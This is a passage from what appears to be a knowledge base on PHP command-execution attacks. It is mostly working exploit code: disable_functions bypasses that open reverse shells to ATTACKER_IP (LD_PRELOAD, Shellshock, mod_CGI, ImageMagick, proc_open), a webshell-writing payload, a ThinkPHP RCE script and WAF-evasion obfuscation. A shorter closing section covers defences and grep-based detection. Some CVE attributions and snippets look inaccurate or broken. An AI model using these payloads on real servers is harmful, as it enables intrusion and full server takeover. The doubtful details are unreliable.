- Ability to upload .so files or generate them with PHP

**POC Code**:
```php
<?php
// Generate malicious .so file
$so_code = <<<EOF
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
}

int geteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
EOF;

// Compile .so (requires writable directory)
file_put_contents('/tmp/exploit.c', $so_code);
system('gcc -shared -fPIC /tmp/exploit.c -o /tmp/exploit.so');

// Trigger execution
putenv("LD_PRELOAD=/tmp/exploit.so");
mail("a@a.com", "test", "test");  // mail() launches the sendmail process
?>
```

#### 10.4.2 Shellshock (CVE-2014-6271) Bypass

**Mechanism**: Bash 4.3 and earlier has an environment variable command injection vulnerability

**Detection POC**:
```bash
# Check for Shellshock
env x='() { :;}; echo vulnerable' bash -c "echo test"

# If "vulnerable" is output, the vulnerability exists
```

**Exploitation Payload**:
```php
<?php
// Trigger via environment variable
putenv("PHP_TEST=() { :; }; bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
system("bash -c 'echo test'");

// Or via the mail function
putenv("PHP_TEST=() { :; }; /bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
mail("a@a.com", "test", "test");
?>
```

#### 10.4.3 Apache Mod_CGI Bypass

**Mechanism**: Apache allows CGI script execution to be configured in .htaccess

**Exploitation Conditions**:
- Apache + PHP
- .htaccess override is allowed
- CGI module is enabled

**Exploitation Steps**:
```php
<?php
// 1. Write .htaccess
$htaccess = <<<EOF
Options +ExecCGI
AddHandler cgi-script .sh
EOF;
file_put_contents('/var/www/html/.htaccess', $htaccess);

// 2. Write CGI script
$cgi_script = <<<EOF
#!/bin/bash
echo -e "Content-Type: text/plain\n"
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
EOF;
file_put_contents('/var/www/html/test.sh', $cgi_script);

// 3. Set execution permissions and access
chmod('/var/www/html/test.sh', 0755);
?>
```

#### 10.4.4 PHP-FPM/FastCGI Bypass

**Mechanism**: Communicates with PHP-FPM via the FastCGI protocol, modifying PHP configuration to execute arbitrary code

**Exploitation Conditions**:
- PHP-FPM running on 127.0.0.1:9000 or UNIX socket
- Direct access to the FastCGI port or access via SSRF

**POC (using a tool)**:
```bash
# Using fcgi_exploit.py
python fcgi_exploit.py -c '<?php system("whoami");?>' -p 9000 127.0.0.1 /var/www/html/index.php
```

#### 10.4.5 ImageMagick Bypass

**Mechanism**: Leverages ImageMagick's delegate functionality to execute commands

**POC File (exploit.mvg)**:
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image"|bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1 &")'
pop graphic-context
```

**Exploitation Code**:
```php
<?php
$imagick = new Imagick('exploit.mvg');
$imagick->setImageFormat('png');
$imagick->writeImage('test.png');
?>
```

#### 10.4.6 Windows COM Component Bypass

**Mechanism**: PHP can invoke Windows COM components to execute system commands

**POC**:
```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.Shell') or die("Create COM failed");
$exec = $wsh->exec("cmd.exe /c ".$command);
$output = $exec->StdOut()->ReadAll();
echo $output;

// Or using Shell.Application
$shell = new COM("Shell.Application");
$shell->ShellExecute("cmd.exe", "/c whoami > C:\result.txt");
?>
```

#### 10.4.7 proc_open/pcntl_exec Bypass

**Mechanism**: proc_open() can create processes with specified descriptors; pcntl_exec() can directly execute programs

**POC (proc_open)**:
```php
<?php
$descriptorspec = array(
    0 => array("pipe", "r"),  // stdin
    1 => array("pipe", "w"),  // stdout
    2 => array("pipe", "w")   // stderr
);

$process = proc_open('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1', $descriptorspec, $pipes);
if (is_resource($process)) {
    // Interact...
}
?>
```

**POC (pcntl_exec)**:
```php
<?php
pcntl_exec('/bin/bash', ['-c', 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1']);
?>
```

### 10.5 Code Audit Perspective: Finding Command Execution Vulnerabilities

#### 10.5.1 Static Analysis Checkpoints

```bash
# Dangerous function search
grep -rn "eval\|exec\|system\|passthru\|shell_exec\|popen\|proc_open" /path/to/code

# Regex /e mode
grep -rn "preg_replace.*\/e" /path/to/code

# Dynamic function calls
grep -rn '\$.*(' /path/to/code | grep -E "(eval|assert|create_function)"

# Variable functions
grep -rn "function_exists\|call_user_func" /path/to/code
```

#### 10.5.2 Data Flow Tracing

```php
// Dangerous Pattern 1: Direct passing
eval($_GET['code']);  // Directly dangerous

// Dangerous Pattern 2: Variable passing
$code = $_POST['data'];
eval($code);  // Indirectly dangerous

// Dangerous Pattern 3: Array passing
$data = unserialize($_COOKIE['data']);
eval($data['code']);  // Deserialization risk

// Dangerous Pattern 4: Object property
class User {
    public $code;
}
$user = unserialize($_GET['obj']);
eval($user->code);  // Object injection risk
```

#### 10.5.3 Real-World Case Analysis

**Case: WooYun-2015-0116254 - A CMS System Command Execution**

```php
// Vulnerable code (simulated)
public function executeCode() {
    $code = $_POST['code'];
    // Missing input validation and filtering
    eval($code);  // Direct execution
}

// Exploitation POC
POST /index.php?m=Index&a=executeCode
code=system('whoami');

// Further exploitation
code=file_put_contents('/var/www/html/shell.php','<?php @eval($_POST[x]);?>');
```

**Root Cause Analysis**:
1. **Entry point identification**: The executeCode method name suggests code execution
2. **Data flow analysis**: POST parameter -> variable -> eval(), no intermediate sanitization
3. **Exploit chain construction**: Verify first -> Write shell -> Persistence
4. **Impact assessment**: Can directly obtain server control

#### 10.5.4 Common Vulnerability Locations

| Location Type | Typical Scenario | Risk Level |
|--------------|-----------------|------------|
| Template Engine | Template cache/compilation | Critical |
| Cache System | Cache key/value | Critical |
| Dynamic Functions | __call()/__invoke() | High |
| Configuration Files | Dynamic config loading | High |
| Hook System | Callback function registration | High |
| Routing System | Dynamic route resolution | Medium |
| Internationalization | Language pack loading | Medium |

### 10.6 Practical WAF/Protection Bypass Techniques

> **Root Cause Analysis**: WAFs are fundamentally rule-matching systems, and rules inherently assume "attackers use known patterns." The key to breakthrough is "creating unknown patterns."

#### 10.6.1 Encoding Obfuscation Matrix

| Encoding Type | Function Bypass | Example |
|--------------|----------------|---------|
| Base64 | system() | `base64_decode('c3lzdGVt')` |
| Hex | eval() | `chr(101).chr(118).chr(97).chr(108)` |
| URL Encoding | Spaces/special chars | `cat%09/etc/passwd` |
| Unicode | Keyword splitting | `s\u0079stem()` |
| ROT13 | String rotation | `str_rot13('flfgrz')` -> `system` |

#### 10.6.2 Function Aliases/Alternatives

```php
// eval alternatives
assert($code)  // PHP 5.x
create_function('', $code)  // Anonymous function
preg_replace('/a/e', $code, 'a')  // /e mode

// system alternatives
shell_exec($cmd)  // Equivalent to ``
passthru($cmd)  // Direct output
exec($cmd, $out)  // Array output
popen($cmd, 'r')  // Pipe

// String concatenation bypass
$func = 'sys' . 'tem';
$func('whoami');

// Array dynamic invocation
$funcs = array('sys', 'tem');
$funcs[0] . $funcs[1]('whoami');
```

#### 10.6.3 Comment/Whitespace Obfuscation

```php
// Multi-line comment
sys/*comment*/tem('whoami');

// Backtick bypass
`whoami`;  // shell_exec alias

// Variable function
$a = 'sys';
$b = 'tem';
$a.$b('whoami');

// Class method bypass
class Command {
    public function execute($cmd) {
        return system($cmd);
    }
}
$c = new Command();
$c->execute('whoami');
```

#### 10.6.4 String Manipulation Techniques

```php
// String reversal
strrev('metsys')('whoami');  // system

// String substring
substr('asystemb', 1, 6);  // system

// String replacement
str_replace('a', '', 'asystema');  // system

// Array assembly
implode('', array('s','y','s','t','e','m'));  // system
join('', array('s','y','s','t','e','m'));  // system

// XOR encryption
$a = "system";
$b = "^_^";
$c = "";
for($i=0;$i<strlen($a);$i++){
    $c .= chr(ord($a[$i]) ^ ord($b[$i % strlen($b)]));
}
$c('whoami');
```

### 10.7 Testing Methodology: Systematic Testing Process

#### 10.7.1 Four-Phase Testing Method

```
Phase 1: Information Gathering
  |-- Identify framework/version
  |-- Locate user input points
  |-- Analyze data flow direction
  |-- Determine execution environment

Phase 2: Vulnerability Detection
  |-- Basic payload testing
  |-- Mutated payload testing
  |-- Blind injection scenario verification
  |-- Bypass technique attempts

Phase 3: Exploitation
  |-- Construct complete exploit chain
  |-- Write automation scripts
  |-- Privilege escalation/persistence
  |-- Data exfiltration

Phase 4: Documentation & Reporting
  |-- Record complete POC
  |-- Write reproduction steps
  |-- Provide remediation recommendations
  |-- Risk assessment
```

#### 10.7.2 Testing Checklist

**Basic Tests**:
- [ ] `phpinfo()` - PHP environment information
- [ ] `system('whoami')` - Current user
- [ ] `var_dump($_SERVER)` - Server variables
- [ ] `get_cfg_var('disable_functions')` - Disabled functions
- [ ] `ini_get_all()` - PHP configuration

**File Operations**:
- [ ] `file_get_contents('/etc/passwd')` - Read file
- [ ] `scandir('/')` - List directory
- [ ] `glob('/var/www/html/*')` - File matching
- [ ] `file_put_contents('/tmp/test.txt', 'content')` - Write file

**Network Tests**:
- [ ] `curl https://example.com/test` - HTTP request
- [ ] `gethostbyname('test.ceye.io')` - DNS query
- [ ] `fsockopen('tcp://attacker.com', 80)` - Socket connection

**Command Execution**:
- [ ] `system('whoami')`
- [ ] `shell_exec('id')`
- [ ] `passthru('pwd')`
- [ ] `exec('ls -la', $out); print_r($out)`
- [ ] `` `whoami` ``
- [ ] `popen('whoami', 'r')`

**Bypass Tests**:
- [ ] Quote splitting: `s'y's't'e'm`
- [ ] Variable concatenation: `$a='sys';$b='tem';$a.$b()`
- [ ] Encoding: `base64_decode()`, `chr()`
- [ ] Comments: `sys/*x*/tem`
- [ ] Dynamic functions: `call_user_func()`

### 10.8 In-Depth Real-World Case Analysis

#### Case 1: ThinkPHP 5.x Remote Code Execution

**Vulnerability ID**: CNVD-2018-24942
**Affected Versions**: ThinkPHP 5.x < 5.1.31

**Vulnerability Mechanism**:
```php
// Simplified framework code
public function method($method = '')
{
    // Method name from route not properly filtered
    $this->{$method}();  // Dynamic invocation
}

// Exploitation URL
/index.php?s=captcha
// POST data
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

**Root Cause Analysis**:
1. **Data flow**: POST parameter -> Variable override -> Dynamic method call -> Code execution
2. **Key point**: filter[]=system -> call_user_func(system, whoami)
3. **Exploit chain**: Variable override -> Class initialization -> Callback function execution

**Complete Exploitation POC**:
```python
import requests

url = "http://target/index.php?s=captcha"
data = {
    "_method": "__construct",
    "filter[]": "system",
    "method": "get",
    "server[REQUEST_METHOD]": "whoami"
}

r = requests.post(url, data=data)
print(r.text)
```

#### Case 2: WordPress WP-SMS Code Execution

**Vulnerability ID**: CVE-2019-9978
**Affected Versions**: WP-SMS < 3.4

**Vulnerable Code**:
```php
// Plugin code (simplified)
$sms_body = $_POST['sms_body'];
// Directly evals user input
eval("\$result = $sms_body;");
```

**Exploitation POC**:
```bash
curl -X POST http://target/wp-admin/admin.php?page=wp-sms \
  -d "sms_body=system('whoami');"
```

**Root Cause Analysis**:
- Dangerous function eval() directly receives user input
- No character filtering or escaping applied
- Results obtainable via HTTP out-of-band data exfiltration

#### Case 3: phpMyAdmin CVE-2016-5734

**Vulnerability Mechanism**: preg_replace() /e mode code execution

**Vulnerable Code**:
```php
// table/maintenance.php
$replace = preg_replace(
    '/\s/e',  # /e mode
    $_GET['sql'],  # User-controllable
    $data
);
```

**Exploitation POC**:
```bash
# GET request
http://target/phpmyadmin/table_maintenance.php?sql=system('whoami')

# Or using POST with table parameter
POST /phpmyadmin/table_maintenance.php
sql=system('whoami')
```

### 10.9 Defense System Architecture

#### 10.9.1 Code-Level Defense

**Allowlist Validation**:
```php
// Secure approach
$allowed_commands = array('ls', 'pwd', 'whoami');
$command = $_GET['cmd'];

if (in_array($command, $allowed_commands)) {
    system($command);
} else {
    die('Invalid command');
}

// Stricter: parameterized
$ip = $_GET['ip'];
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die('Invalid IP');
}
system('ping -c 1 ' . escapeshellarg($ip));
```

**Disable Dangerous Functions**:
```ini
; php.ini
disable_functions = eval,exec,system,passthru,shell_exec,popen,proc_open,pcntl_exec,assert,create_function
disable_classes = COM
```

**Input Filtering**:
```php
// Use dedicated functions
$cmd = escapeshellcmd($_GET['cmd']);
$arg = escapeshellarg($_GET['arg']);

// Combined with allowlist
$allowed = array('arg1', 'arg2');
$arg = $_GET['arg'];
if (in_array($arg, $allowed)) {
    $arg = escapeshellarg($arg);
}
```

#### 10.9.2 Framework-Level Defense

**Template Engine Security Configuration**:
```php
// Smarty
$smarty->security = true;
$smarty->security_policy->php_handling = Smarty::PHP_REMOVE;
$smarty->security_policy->disabled_functions = 'eval,exec,system';

// Twig
$twig->addExtension(new \Twig\Extension\SandboxExtension());
```

**Routing Security**:
```php
// Restrict accessible methods
$allowed_methods = array('index', 'show', 'create');
$method = $_GET['action'];

if (!in_array($method, $allowed_methods)) {
    die('Method not allowed');
}
```

#### 10.9.3 Server-Level Defense

**PHP-FPM Configuration**:
```ini
; /etc/php-fpm.d/www.conf
php_admin_value[disable_functions] = eval,exec,system,passthru,shell_exec
php_admin_value[open_basedir] = /var/www/html:/tmp
```

**AppArmor/SELinux**:
```bash
# AppArmor configuration example
/usr/bin/php {
  deny /bin/** ix,
  deny /usr/bin/** ix,
  deny /var/www/html/.htaccess w,
}
```

**Container Isolation**:
```yaml
# Docker Compose
version: '3'
services:
  web:
    image: php:apache
    volumes:
      - ./code:/var/www/html:ro  # Read-only mount
    read_only: true
    tmpfs:
      - /tmp
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
```

### 10.10 Automated Detection Tools

#### 10.10.1 Static Analysis Tools

**RIPS (PHP-Specific)**:
```bash
# Scan for command execution vulnerabilities
rips --path /var/www/html --scan-type command_execution
```

**SonarQube Rules**:
```xml
<rule>
  <key>php:S5527</key>
  <name>Removing calls to "eval()" is security-sensitive</name>
  <severity>CRITICAL</severity>
</rule>
```

**Custom grep Rules**:
```bash
# Dangerous function detection
grep -rnP "eval\s*\(" . | grep -v "vendor/"
grep -rnP "(system|exec|passthru|shell_exec)\s*\(" . | grep -v "vendor/"

# Dangerous pattern detection
grep -rnP '\$_(GET|POST|REQUEST|COOKIE)\[[^\]]+\]\s*;' . | grep -E "(eval|exec|system)"
```

#### 10.10.2 Dynamic Detection Tools

**Burp Suite Extensions**:
- **CmdInjectionVulnScan**: Automatically detects command injection
- **PHPShell**: Detects webshell uploads

**SQLMap Extension**:
```bash
# Detect command execution
sqlmap -u "http://target/page?id=1" --os-shell --batch
```

#### 10.10.3 Custom Detection Script

```python
#!/usr/bin/env python3
# PHP Command Execution Vulnerability Auto-Detection Script

import requests
import time
from urllib.parse import quote

class CmdExecScanner:
    def __init__(self, target_url):
        self.target = target_url
        self.payloads = {
            'eval_test': 'phpinfo()',
            'system_test': 'system("whoami")',
            'exec_test': 'exec("whoami")',
            'shell_exec_test': 'shell_exec("whoami")',
            'passthru_test': 'passthru("whoami")',
        }

    def test_parameter(self, param_name):
        """Test a single parameter"""
        for test_name, payload in self.payloads.items():
            try:
                data = {param_name: payload}
                r = requests.post(self.target, data=data, timeout=5)

                # Detect phpinfo signature
                if 'PHP Version' in r.text or 'phpinfo()' in r.text:
                    return f"[+] {test_name} succeeded! Found eval() vulnerability"

                # Detect command execution signature
                if 'www-data' in r.text or 'apache' in r.text or 'root' in r.text:
                    return f"[+] {test_name} succeeded! Found command execution vulnerability"

            except Exception as e:
                continue

        return None

    def blind_test(self, param_name, dnslog_domain):
        """Blind injection test (using DNS out-of-band)"""
        payload = f'system("ping {param_name}.{dnslog_domain}")'
        data = {param_name: payload}

        requests.post(self.target, data=data)

        # Wait for DNS query (requires DNSLog platform)
        time.sleep(3)

        # Check DNSLog platform for records
        # ...

    def scan(self, parameters):
        """Scan all parameters"""
        results = []

        for param in parameters:
            result = self.test_parameter(param)
            if result:
                results.append({
                    'parameter': param,
                    'vulnerability': result
                })

        return results

# Usage example
if __name__ == '__main__':
    scanner = CmdExecScanner('http://target/vulnerable.php')
    params = ['code', 'cmd', 'command', 'eval', 'exec']
    results = scanner.scan(params)

    for r in results:
        print(f"[{r['parameter']}] {r['vulnerability']}")
```

---

## Summary: Meta-Analysis Framework

### Core Methodology

```
Observation -> Pattern Recognition -> Abstract Modeling -> Predictive Verification
     |               |                     |                     |
Entry Points    Exploit Chains      Defense Rules       Bypass Techniques
```

### Key Insights

1. **Essential Thinking**: Command Execution = Data Contamination + Execution Context
2. **Systematization**: Build complete mappings from functions -> patterns -> exploits
3. **Predictive Capability**: Predict new vulnerability forms based on historical vulnerabilities
4. **Evolutionary Understanding**: Co-evolution patterns between defense and attack

### Decision Tree

```
Dangerous function found?
|-- Yes -> User-controllable?
|   |-- Yes -> Vulnerability exists
|   |-- No -> Can it be indirectly controlled?
|       |-- Yes -> Trace data flow
|       |-- No -> Low risk
|-- No -> Search for dynamic invocations
    |-- Can call parameters be controlled?
    |   |-- Yes -> Vulnerability exists
    |   |-- No -> Continue searching
    |-- Can method name be controlled?
        |-- Yes -> High risk (dynamic method invocation)
        |-- No -> Medium risk (callback functions)
```

---

> **Knowledge Base Update Log**
> - 2025-01-23: Added PHP Command Execution Meta-Analysis Methodology (Section 10)
> - Based on case: WooYun-2015-0116254 (eval() direct execution)
> - New content: Dangerous function classification matrix, complete test payloads, disable_functions bypass techniques
> - Risk level: Critical (can obtain complete server control)
